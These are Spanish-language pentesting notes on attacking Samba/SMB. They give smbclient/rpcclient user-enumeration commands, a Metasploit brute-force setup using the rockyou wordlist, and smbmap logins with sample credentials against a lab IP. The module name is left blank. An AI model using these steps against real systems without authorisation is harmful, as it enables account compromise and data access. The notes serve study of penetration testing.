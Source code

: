 
SAMBA sirve para que los sistemas operativos que no sean Windows puedan comunicarse con sistemas que si usen SMB

Para la enumeración de usuarios usaremos la herramienta
### [[RPCCLIENT]]

Para empezar deberemos usar el siguiente comando
`smbclient //<IP_Victima>/<recurso> -N`

Una vez en la consola de [[RPCCLIENT]] usaremos las siguientes ordenes para empezar la enumeración
- Primero debemos de ejecutar
`srvinfo` Nos muestra información del SO

- Segundo ejecutar
`querydispinfo` Nos muestra Usuarios

- Tercero a ejecutar
`enumdomusers` Nos muestra Usuarios

Ahora ya con[[METASPLOIT]] podremos hacer el ataque de fuerza bruta
Usaremos el modulo
Vemos las opciones de configuración con `show options`
Configuramos los parámetros que son necesarios
`set <Opciones> <Parametro>` 
- RPORT `445`
- RHOST `IPVictima`
- SMBUser `nombre usuario si lo conocemos`
- SMBPass `contraseña si la conocemos`
- PASS_FILE `/usr/share/wordlists/rockyou.txt`  Diccionario en caso de no saber contraseñas
- VERBOSE `false`

Una vez tengamos todo configurado usaremos el comando `run` para ejecutar el exploit
Ahora ya podemos seguir con la explotación usando [[00. Apuntes/01. Herramientas/SMBMAP|SMBMAP]] o [[00. Apuntes/01. Herramientas/SMBCLIENT|SMBCLIENT]]
Con [[00. Apuntes/01. Herramientas/SMBMAP|SMBMAP]] seria así
` smbmap -H 192.168.1.31 -u 'ken' -p 'kenken'`

Para acceder a un recurso compartido usaríamos el parámetro `-r` 
` smbmap -H 192.168.1.31 -u 'ken' -p 'kenken' -r ken`


